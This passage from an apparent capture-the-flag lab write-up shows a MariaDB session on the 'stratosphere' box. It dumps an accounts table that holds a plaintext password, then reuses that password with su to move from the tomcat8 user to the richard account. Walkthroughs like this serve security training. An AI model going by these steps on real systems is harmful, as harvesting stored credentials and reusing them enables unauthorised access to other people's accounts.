 ```
Copyright (c) 2000, 2017, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]>
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| users              |
+--------------------+
2 rows in set (0.00 sec)

MariaDB [(none)]> use users;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A
Database changed

MariaDB [users]>
show tables;
+-----------------+
| Tables_in_users |
+-----------------+
| accounts        |
+-----------------+
1 row in set (0.00 sec)

MariaDB [users]>
select * from accounts;
+------------------+---------------------------+----------+
| fullName         | password                  | username |
+------------------+---------------------------+----------+
| Richard F. Smith | 9tc*rhKuG5TyXvUJOrE^5CK7k | richard  |
+------------------+---------------------------+----------+
1 row in set (0.01 sec)

```

### su with Creds

With password in hand, try su:

```

tomcat8@stratosphere:~$
su richard
Password:
9tc*rhKuG5TyXvUJOrE^5CK7k

richard@stratosphere:/var/lib/tomcat8$

```
